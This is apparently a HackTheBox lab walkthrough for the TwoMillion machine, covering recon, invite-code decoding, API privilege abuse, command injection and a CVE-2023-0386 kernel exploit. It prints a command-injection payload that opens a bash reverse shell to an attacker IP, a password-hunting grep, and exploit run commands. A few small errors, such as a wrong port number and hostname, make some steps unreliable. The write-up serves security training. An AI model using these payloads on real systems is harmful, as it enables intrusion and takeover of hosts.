+++ 
draft = false
date = 2024-01-16T13:07:16+01:00
title = "TwoMillion HTB Walkthrough"
description = ""
slug = ""
authors = ["Dennis Drebitca"]
tags = ["CVE-2023-0386","Cyberchef", "Command Injection", "JS Deobfuscation", "API Enumeration","Grep"]
categories = []
externalLink = ""
series = []
+++


[comment]: <> (Insertar imagen de la carátula de la máquina)


The TwoMillion HTB machine is an easy difficulty level HackTheBox Machine. The main techniques and tools used to crack this machine are:

    - Command Injection
    - Burpsuite
    - CVE-2023-0386
    - JS deobfuscation with Cyberchef
    - API enumeration


## Reconnaissance

We start a broad Nmap scan by executing the following command:

```sh
sudo nmap -sS -T5 -vvv -p- 10.10.11.221 -Pn -oG nmap_inicial
```

Where the arguments mean:

    -sS: SYN port scan
    -T5: Using timing template 5 of NMAP
    -vvv: Triple verbose so NMAP prints a lot of information
    -p-: All ports are scanned
    -Pn: Skips Host Discovery
    -oG: Grep Format

The scan returns the following information:



It looks like ports 20 and 80 are open. Classic open ports for SSH and https. Next, we run a more comprehensive scan on the open ports:

```sh
sudo nmap -sCV -p22,80 10.10.11.221 -oN nmap_exhaustivo -v
```

Now the arguments used mean:

    -sCV: Launches all scanning scripts to discover services and versions running on these ports
    -oN: Normal output format
    -v: Single verbose

The results for this second scan are the following:



The usuall SSH and HTTP ports are open. Now lets try to enumerate subdirectories via brute force with Feroxbuster. First, we add the website to our /etc/hosts file and then we run the following command:

```sh
feroxbuster -u http://clicker.htb -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

While FeroxBuster runs, lets take a look at the webpage hosted:



There is nothing of interest besides the login and Join HTB buttons. 



The login page isnt useful since we dont have access credentials, and would have to bruteforce the password. Lets look for some more low hanging fruit to see if we can register somehow.

There is a /register webpage, but we need an invite code. Trying to access it anyways, returns an error. But im curious how these invite codes are generated and/or stored. 



There is an interesting js file named inviteapi.min.js that contains the following code:

```js
eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}',24,24,'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'),0,{}))
```

It looks like obfuscated js code. Lets try to deobfuscate it to see what it does. I have found [this](https://lelinhtinh.github.io/de4js/) JavaScript deobfuscator which gave the following output:

```js
function verifyInviteCode(code) {
    var formData = {
        "code": code
    };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function (response) {
            console.log(response)
        },
        error: function (response) {
            console.log(response)
        }
    })
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function (response) {
            console.log(response)
        },
        error: function (response) {
            console.log(response)
        }
    })
}
```

From the beautified code, we can see that the makeInviteCode() function makes a POST request to /api/v1/invite/how/to/generate. Lets try to see what happens if we do a POST request ourselves with curl.

```bash
curl -X POST http://2million.htb/api/v1/invite/how/to/generate
```



The response is the following:

```sh
{"0":200,"success":1,"data":{"data":"Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr","enctype":"ROT13"},"hint":"Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."}
```

It is a encrypted output, and the encryption type is ROT13. [Here](https://wiki.linuxquestions.org/wiki/Rot13#:~:text=rot13%20is%20a%20text%20scrambling,%2C%20B%20becomes%20O%2C%20etc.) we can find more information about the ROT13 encryption. Each character is shifted forward 13 times. To decode it, we can use [this]() website. The output is:


```sh
In order to generate the invite code, make a POST request to \/api\/v1\/invite\/generate
````

We can delete the escape characters and make another POST request with curl.

```sh
curl -X POST http://2million.htb/api/v1/invite/generate 
````



The data received is also encoded, this time in base64. To decode it, we can just run base64 -d on our terminal:

```sh
echo "Qlk3MVQtR1FMVzktUkROM0UtQThPOUg=" | base64 -d
```

The output is BY71T-GQLW9-RDN3E-A8O9H. Lets try to register now with this invite code.



And it worked!!

Now lets see if we can access /api/v1 now that we are logged in.



It lists the api endpoints avaliable. Maybe there are more, but we will work with these now.

There is a endpoint that checks if we are admin. Unfortunately, it returns false because we are not admin. There is also a /api/v1/admin/settings/update with the PUT method. We can try to make us admins. The requests were made using BurpSuite.



We can try to specify the content type as json:



Now we need to add the parameter email into the request.



Now we need the parameter is-admin and set it to true.



Well, it looks like it wants a 0 or a 1, so we will put on a 1.

The complete request looks like this:

```html
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=6s1sblkhjjpoq9t9ms5b8pv48b
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 53
{
"email": "dennis@dennis.com",
"is_admin": 1
}
```

Now we have to look at what api endpoint we can exploit to get initial access to the system.

## Initial access

A logical one to try is /api/v1/admin/vpn/generate. It has access to the underlaying system. We can try to inject some JSON data into the POST request:



We now set a value key pair, and try to execute a reverse shell on the machine. It is successful.



The full request is the following: 


```html
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=6s1sblkhjjpoq9t9ms5b8pv48b
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 79
{
    "username": "; bash -c 'bash -i >& /dev/tcp/10.10.14.160/1234 0>&1'"
}
```


## User escalation from www-data to admin

Now that we have have foothold in the system, lets look for any file that might be interesting. Using grep, we can search for any file containing the "pass" string:

```sh
grep -arin -o -E '(\w+\W+){0,10}pass(\w+\W+){0,10}' .
```




There is a .env file that contains the user and password for the database running. It is also the password for the user admin.



We also got the user flag located in the home directory.

## Privilege escalation

Lets try running linpeas to see what information it can scrape. First, we set up on our machine a simple http server using python on port 5555.

```sh
python3 -m http.server 5555
```

And then we use wget on the remote machine to download it.

```sh
wget 10.10.15.1:5555/linpeas.sh
```



It looks like there are some e-mails present. Lets check them out.



In this message we get a hint - maybe the underlaying linux kernel has not been updated recently and there are some known vulnerabilities we can take advante of.

The current version of linux running in the machine is Linux 5.15.70-051570-generic.

Researching the web, the kernel might be vulnerable to CVE-2023-0386. Citing NIST: "A flaw was found in the Linux kernel, where unauthorized access to the execution of the setuid file with capabilities was found in the Linux kernel’s OverlayFS subsystem in how a user copies a capable file from a nosuid mount into another mount. This uid mapping bug allows a local user to escalate their privileges on the system.[](https://nvd.nist.gov/vuln/detail/CVE-2023-0386)"

To execute the exploit, we download the git PoC by [xkaneiki](https://github.com/xkaneiki/CVE-2023-0386) as a zip file, and then copy it using the simple python http server.

Once copied and extracted with unzip, all we have to do is compile and run the exploit:

```sh
make all
```

```sh
./fuse ./ovlcap/lower ./gc
```




Then we have to open another window, this time connecting to the machine via ssh:

```sh
ssh admin@2million.htb
```

And then running the last part of the exploit.

```sh
./exp.c
```
Now we are root and read the root flag.

